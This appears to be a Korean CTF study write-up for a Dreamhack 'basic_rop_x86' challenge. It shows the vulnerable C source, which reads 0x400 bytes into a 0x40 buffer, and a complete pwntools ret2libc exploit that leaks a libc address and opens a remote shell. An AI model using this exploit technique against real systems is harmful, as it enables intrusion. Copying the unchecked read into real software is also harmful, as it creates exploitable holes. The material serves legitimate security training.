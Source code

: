 ## 소스 코드
```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```
### checksec
<img width="669" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/215a749b-9759-43d1-a2f3-4db33c079181">

## 익스플로잇 코드
```
from pwn import *

# ret2main

context.arch = "i386"
p = remote('host3.dreamhack.games', 14372)

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')
r = ROP(e)

read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

binsh = list(libc.search(b'/bin/sh'))[0]
read_system_offset = libc.symbols['read'] - libc.symbols['system']
read_binsh_offset = libc.symbols['read'] - binsh

pop = r.find_gadget(['pop ebp', 'ret'])[0]
pop3 = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]
ret = r.find_gadget(['ret'])[0]
# pop = 0x0804868b
# pop3 = 0x08048689
# ret = 0x080483c2

payload = b'a'*0x40 + b'a'*0x8
payload += p32(ret)
payload += p32(write_plt) + p32(pop3) + p32(1) + p32(read_got) + p32(0x4) + p32(main)
# payload += p32(write_plt) + p32(pop) + p32(1) + p32(pop) + p32(read_got) + p32(pop) + p32(0x4) + p32(main)
# 이렇게하면 ret이 섞여서 나와서 안됨

# first main

p.send(payload)

p.recvuntil(b'a'*0x40)
read = u32(p.recv(4))

system = read - read_system_offset
binsh = read - read_binsh_offset

# second main

payload = b'a'*0x40 + b'a'*0x8
payload += p32(system) + p32(pop) + p32(binsh)

p.send(payload)
p.interactive()
```

<img width="829" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/e8de9669-fdd0-4b78-b49b-b7e87783834a">
